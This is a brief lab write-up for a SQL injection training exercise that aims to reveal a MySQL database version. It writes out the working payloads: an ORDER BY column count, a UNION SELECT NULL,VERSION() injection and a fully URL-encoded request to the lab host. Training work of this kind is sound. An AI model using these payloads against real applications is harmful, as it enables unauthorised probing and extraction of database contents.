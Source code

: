 # Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Target:  To solve the lab, display the database version string.

Analysis:

- no of columns 2 `Accessories'+order+by+2#`
- using this blog `https://stackoverflow.com/questions/4300669/what-does-mean-in-sql` we can figure that we facing MySQL Server
- `Accessories'+UNION+SELECT+NULL,VERSION()+#+`
- `https://0aea00c103e36cd183cba569007700b5.web-security-academy.net/filter?category=%41%63%63%65%73%73%6f%72%69%65%73%27%20%55%4e%49%4f%4e%20%53%45%4c%45%43%54%20%4e%55%4c%4c%20%2c%20%56%45%52%53%49%4f%4e%28%29%20%20%23`
